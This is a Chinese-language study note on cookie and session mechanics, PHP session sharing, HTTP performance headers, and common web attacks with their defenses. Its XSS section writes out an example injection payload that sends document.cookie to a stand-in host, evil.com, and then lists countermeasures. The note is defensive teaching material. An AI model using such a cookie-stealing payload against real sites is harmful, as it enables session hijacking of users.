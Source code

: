 ## Cookie、Session 的原理
### Cookie
1. cookie保存在客户端
2. cookie的保存时间由服务器设定
3. 服务设置cookie过期时间来删除cookie
4. 设置cookie的有效域，可以使cookie跨域 ".baidu.com"
5. cookie 存储的内容不安全，可以加密后存储

### Session
1. session保存在服务器端
2. session的存储内容：
	- uid|i:123;abc|O:1:"a":2:{s:1:"s";s:4:"test";s:1:"b";a:2:{i:0;s:2:"12";i:1;s:2:"34";}}
3. session的有效期
	- 由php.ini中的session配置决定
4. 关闭客户端可以删除session或者使session失效吗?
	- 不能删除session,但有可能使session失效 .使其失效的原因是如果配置的session有效期是cookie随着浏览器失效.
5. **如果服务端有多台服务器,session如何共享?**
	- nfs, 将多台服务器所在的session存储目录设置为mount挂载的目录
	- `memcache,session.save_handler = memcache`并设置路径session.save_path = "tcp://192.168.1.101:11211"
    - `mysql,session.save_handler = user`,然后建立session表,建立php文件用于对数据库表操作session数据,最后用session的都引入上一步中的php文件



## HTTP性能优化
1. **缓存**:  Cache-control、 If-Modified-Since、ETag
2. **连接**: Connection: keep-alive  Keep-Alive: 10
3. **压缩**:  Accept-Encoding(请求头)、Content-Encoding(相应头)
4. **片段请求**: Range: bytes=0-1023(只请求实体的一部分)
5. **分块传输**: Transfer-Encoding: chunked

## HTTP 安全、常见攻击方式及防范策略

### http常见的攻击方式
- xss 跨站点脚本攻击
- csrf 跨站请求伪造
- sniffer 监听假冒

### xss 跨站点脚本攻击
- 如果一个输入框`<input type="text" name="data" value="">`
- 输入的内容是 `"/>window.open("http://evil.com?cookie="+document.cookie)<!-`  整个内容就变为
`<input type="text" name="data" value=""/>window.open("http://evil.com?cookie="+document.cookie)<!-">`
- 不要相信用户输入的任何内容
- 将重要的cookie标记为http only,   这样的话Javascript 中的document.cookie语句就不能获取到cookie了.
- 只允许用户输入我们期望的数据。 例如：　年龄的textbox中，只允许用户输入数字。 而数字之外的字符都过滤掉。
- 对数据进行Html Encode 处理
- 过滤或移除特殊的Html标签， 例如: `<script>`, `<iframe>` , ` &lt;` for <, `&gt;` for >, &quot for
- 过滤JavaScript 事件的标签。例如 "onclick=", "onfocus" 等等。
